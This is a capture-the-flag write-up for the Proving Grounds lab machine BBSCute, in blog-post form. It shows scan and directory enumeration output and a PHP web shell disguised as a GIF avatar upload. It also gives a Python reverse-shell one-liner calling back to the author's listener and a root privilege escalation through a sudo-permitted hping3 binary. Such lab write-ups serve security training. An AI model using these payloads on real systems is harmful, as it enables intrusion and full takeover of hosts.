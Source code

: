 ```yaml
---
title: "Proving grounds Play: BBSCute"
layout: post
date: 2023-09-30 02:00
categories: writeup
---
```


Proving grounds Play - BBSCute CTF writeup.

## Nmap

```sh
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
995/tcp open  ssl/pop3 Courier pop3d
```

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

```sh
naveenj@hackerspace:|00:36|~/pg-play/BBSCute$ dirsearch -u http://192.168.151.128/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r -t 60 --full-url

Target: http://192.168.151.128/

[00:37:05] Starting: 
[00:37:21] 301 -  317B  - http://192.168.151.128/core  ->  http://192.168.151.128/core/     (Added to queue)
[00:37:23] 301 -  317B  - http://192.168.151.128/docs  ->  http://192.168.151.128/docs/     (Added to queue)
[00:37:24] 200 -    1KB - http://192.168.151.128/favicon.ico
[00:37:27] 200 -   10KB - http://192.168.151.128/index.html
[00:37:28] 200 -    6KB - http://192.168.151.128/index.php  #login page
```

## http://192.168.151.128/index.php

![img](/assets/images/CTF/Proving_Grounds/BBSCute/web.png)

Register ➡️ login ➡️ Upload Avatar ➡️ upload reverse shell/php code execution code as avatar.

***Note:*** In order to do a successfull registration the CAPTCHA must be sumitted and which is not available on the registration page. So it can be obtained by viewing the CAPTCHA page source `view-source:http://192.168.151.128/captcha.php`

**Upload.php**

```sh
GIF98;
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

**Trigger Payload**: `http://192.168.151.128/uploads/avatar_naveenj_upload.php?cmd=id`

Check the python version using `which python` command the create the reverse shell code.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.204",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

## Initial Foothold

```sh
naveenj@hackerspace:|01:17|~/pg-play/BBSCute$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.128] 60944
www-data@cute:/var/www/html/uploads$ 
```

## Privilege Escalation

Enumerate user executable permissions using `sudo -l`.

```sh
www-data@cute:/$ sudo -l    #check executable permissions
sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp    
    www-data@cute:/$ ls -al /usr/sbin/hping3
ls -al /usr/sbin/hping3
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
```

The binary can be run as root without password.

```sh
www-data@cute:/$ hping3
hping3
hping3> whoami
whoami
root    #root obtained
hping3> id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
hping3>
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).